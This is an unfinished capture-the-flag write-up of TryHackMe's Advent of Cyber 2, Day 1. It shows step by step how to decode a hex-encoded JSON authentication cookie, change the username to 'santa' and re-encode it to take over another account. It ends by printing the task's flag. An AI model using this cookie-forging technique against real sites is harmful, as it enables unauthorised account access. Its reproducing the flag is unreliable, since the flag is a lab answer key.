






*note: i'll update ASAP*

# [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2)
---
Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## [Task 1] Introduction
---

## [Task 2] Our Socials
---

## [Task 3] Short Tutorial & Rules
---

## [Task 4] Subscribing
---

## [Task 5] The Story
---

## [Task 6] [Day1] Web Exploitation: A Christmas Crisis
---

Start the machine by clicking "Deploy" green button.
<figure>
<center><a href="1.png"></a></center>
<figcaption>Deploy the machine.</figcaption>
</figure>

Ping the machine' IP Address first to see if the machine already up.
```bash
kali@kali:~$ ping 10.10.182.59
PING 10.10.182.59 (10.10.182.59) 56(84) bytes of data.
64 bytes from 10.10.182.59: icmp_seq=64 ttl=63 time=195 ms
64 bytes from 10.10.182.59: icmp_seq=65 ttl=63 time=250 ms
64 bytes from 10.10.182.59: icmp_seq=66 ttl=63 time=225 ms
64 bytes from 10.10.182.59: icmp_seq=67 ttl=63 time=261 ms
64 bytes from 10.10.182.59: icmp_seq=68 ttl=63 time=215 ms
64 bytes from 10.10.182.59: icmp_seq=69 ttl=63 time=212 ms
```

If the machine already up, go to the machine's IP Address in port 80 on the Browser.
<figure>
<center><a href="2.png"></a></center>
<figcaption>The website.</figcaption>
</figure>

If the website up, register for an account and then login to that account. Inspect the cookie used for authentication via Cookie Editor Extension. The cookie's name is **auth**.
<figure>
<center><a href="3.png"></a></center>
<figcaption>Inspecting cookie used.</figcaption>
</figure>

We can see the format from the value of this cookie is **hexadecimal**.
<figure>
<center><a href="4.png"></a></center>
<figcaption>Hexadecimal format.</figcaption>
</figure>

If we decoded the cookie's value, the decoded data are shown below with **json** format.
```bash
kali@kali:~$ echo "7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226161616161227d" | perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
{"company":"The Best Festival Company", "username":"aaaaa"}
```

We can login to user `Santa` by changing the value of the username and encode it to hexadecimal. So, the Santa's cookie is shown below.
```bash
kali@kali:~$ python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
{"company":"The Best Festival Company", "username":"aaaaa"}
>>> a = '{"company":"The Best Festival Company", "username":"Santa"}'
>>> a.encode("hex")
'7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2253616e7461227d'
# ^ is Santa's cookie.
```

Change our cookie to user `santa` with lowercased `s` and encoded it to hexadecimal.
```bash
>>> a = '{"company":"The Best Festival Company", "username":"santa"}'
>>> a.encode("hex")
'7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d'
```

Now, change our cookie on the Browser.
<figure>
<center><a href="5.png"></a></center>
<figcaption>Change cookie to user "santa".</figcaption>
</figure>

Activate all the control and we got the flag!
<figure>
<center><a href="6.png"></a></center>
<figcaption>Flag!</figcaption>
</figure>

The flag is **THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}**.


